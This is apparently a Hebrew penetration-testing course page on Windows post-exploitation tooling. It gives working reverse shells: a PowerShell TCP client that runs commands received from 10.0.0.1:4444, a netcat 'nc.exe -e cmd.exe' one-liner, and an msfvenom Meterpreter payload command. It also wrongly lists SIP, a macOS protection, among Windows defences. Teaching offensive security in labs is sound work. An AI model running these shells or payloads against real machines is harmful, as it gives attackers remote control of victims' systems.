

repository: AmitPinchasi/amittech · page: בודק-חדירות/3 - תקיפת ווינדוס/3.5 - כלי סייבר בווינדוס/3.5 - כלי סייבר בווינדוס/index.html · generator: mkdocs

# הצלחנו להסלים הרשאות בווינדוס, מה עכשיו?

## בעיות עם כלים בווינדוס

בניגוד ללינוקס, בווינדוס יש שכבות רבות של הגנה שמונעות מאיתנו להריץ כלים חיצוניים. האנטי-וירוסים, Windows Defender, ו-System Integrity Protection (SIP) מונעים מאיתנו גישה ישירה להרבה מהפעולות שנרצה לבצע. לכן, נצטרך למצוא דרכים לעקוף הגנות אלו או להשתמש בטכניקות שמסוות את הפעולות שלנו.

## קצת על reverse shell בווינדוס

בווינדוס ניתן להשתמש ב-PowerShell או ב-Netcat כדי ליצור חיבור הפוך, אך רבים מהכלים הללו מזוהים כחלק ממנגנוני ההגנה.

### יצירת reverse shell באמצעות PowerShell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.0.0.1", 4444);
$stream = $client.GetStream();
$writer = New-Object System.IO.StreamWriter($stream);
$reader = New-Object System.IO.StreamReader($stream);
while ($true) {
    $cmd = $reader.ReadLine();
    $output = iex $cmd 2>&1 | Out-String;
    $writer.WriteLine($output);
    $writer.Flush();
}
```

### יצירת reverse shell באמצעות Netcat:

```powershell
nc.exe -e cmd.exe 10.0.0.1 4444
```

## הפיכת Shell בסיסי ל-Shell אינטראקטיבי

כאשר אנו מקבלים shell בווינדוס, לרוב הוא מוגבל מאוד ואינו מספק חווית עבודה טובה. ניתן לשדרג את ה-shell לאינטראקטיבי יותר באמצעות ConPTY:

```powershell
$proc = Start-Process -FilePath "cmd.exe" -PassThru -NoNewWindow;
$proc.Id
```

ניתן גם להשתמש ב-PowerShell Empire, שמאפשר חיבור חזק יותר: [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)
קראו על הכלי!
## כלי סייבר מתקדמים בווינדוס

### הכלי Cobalt Strike

הכלי Cobalt Strike הוא כלי מתקדם לניהול התקפות ולביצוע post-exploitation. הכלי משמש לניהול shell-ים, לתקיפה בתוך הרשת, ולהפצת קוד זדוני בין מחשבים.
- [https://www.cobaltstrike.com/](https://www.cobaltstrike.com/)
### הכלי Sliver
הכלי Sliver כמו בלינוקס, זמין גם בווינדוס
- [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver)

### הכלי Meterpreter (Metasploit Framework)

Meterpreter מאפשר לנו שליטה מלאה על המערכת עם מגוון רחב של יכולות, כולל העברת קבצים, צילום מסך, והחדרת processes.

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > shell.exe
```

- ומתנצל לפוצץ לכם את הבועה, אף אחד מהכלים האלו לא יעבוד לכם אם יש defender או כל אנטי-ווירוס כזה או אחר דלוק.
